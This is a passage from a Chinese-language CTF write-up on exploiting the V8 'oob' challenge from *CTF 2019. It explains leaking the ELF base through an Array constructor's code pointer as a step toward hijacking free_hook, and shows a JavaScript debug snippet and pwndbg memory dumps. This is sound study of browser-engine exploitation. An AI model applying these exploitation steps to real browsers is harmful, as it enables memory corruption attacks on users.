 ![img](D:\github\De4dCr0w.github.io\image\2020-07-13-starctf2019-v8-oob分析\1.png)



（3）劫持free_hook

已经可以任意读写了，首先需要泄露libc地址或者elf的基址。这里可以通过object->map->constructor->code 来泄漏 elf 的基址

```
var a = [1.1, 2.2];
%DebugPrint(a.constructor);
```



```c
pwndbg> job 0x3edb76250ec1
0x3edb76250ec1: [Function] in OldSpace
 - map: 0x11bd152c2d49 <Map(HOLEY_ELEMENTS)> [FastProperties]
 - prototype: 0x3edb76242109 <JSFunction (sfi = 0x2fb963f03b29)>
 - elements: 0x019604340c71 <FixedArray[0]> [HOLEY_ELEMENTS]
 - function prototype: 0x3edb76251111 <JSArray[0]>
 - initial_map: 0x11bd152c2d99 <Map(PACKED_SMI_ELEMENTS)>
 - shared_info: 0x2fb963f06791 <SharedFunctionInfo Array>
 - name: 0x019604343599 <String[#5]: Array>
 - builtin: ArrayConstructor
 - formal_parameter_count: 65535
 - kind: NormalFunction
 - context: 0x3edb76241869 <NativeContext[246]>
 - code: 0x1dced6306981 <Code BUILTIN ArrayConstructor>
 - properties: 0x3edb76251029 <PropertyArray[6]> {
    #length: 0x2fb963f004b9 <AccessorInfo> (const accessor descriptor)
    #name: 0x2fb963f00449 <AccessorInfo> (const accessor descriptor)
    #prototype: 0x2fb963f00529 <AccessorInfo> (const accessor descriptor)
    0x019604344c79 <Symbol: (native_context_index_symbol)>: 11 (const data field 0) properties[0]
    0x019604344f41 <Symbol: Symbol.species>: 0x3edb76250fd9 <AccessorPair> (const accessor descriptor)
    #isArray: 0x3edb76251069 <JSFunction isArray (sfi = 0x2fb963f06829)> (const data field 1) properties[1]
    #from: 0x3edb762510a1 <JSFunction from (sfi = 0x2fb963f06879)> (const data field 2) properties[2]
    #of: 0x3edb762510d9 <JSFunction of (sfi = 0x2fb963f068b1)> (const data field 3) properties[3]
 }

 - feedback vector: not available
pwndbg> job 0x1dced6306981
0x1dced6306981: [Code]
 - map: 0x019604340a31 <Map>
kind = BUILTIN
name = ArrayConstructor
compiler = turbofan
address = 0x7ffe6e8de648

Trampoline (size = 13)
0x1dced63069c0     0  49ba80d735f18f550000 REX.W movq r10,0x558ff135d780  (ArrayConstructor)
0x1dced63069ca     a  41ffe2         jmp r10

Instructions (size = 28)
0x558ff135d780     0  493955d8       REX.W cmpq [r13-0x28] (root (undefined_value)),rdx
0x558ff135d784     4  7405           jz 0x558ff135d78b  (ArrayConstructor)
0x558ff135d786     6  488bca         REX.W movq rcx,rdx
0x558ff135d789     9  eb03           jmp 0x558ff135d78e  (ArrayConstructor)
0x558ff135d78b     b  488bcf         REX.W movq rcx,rdi
0x558ff135d78e     e  498b5dd8       REX.W movq rbx,[r13-0x28] (root (undefined_value))
0x558ff135d792    12  488bd1         REX.W movq rdx,rcx
0x558ff135d795    15  e926000000     jmp 0x558ff135d7c0  (ArrayConstructorImpl)
0x558ff135d79a    1a  90             nop
```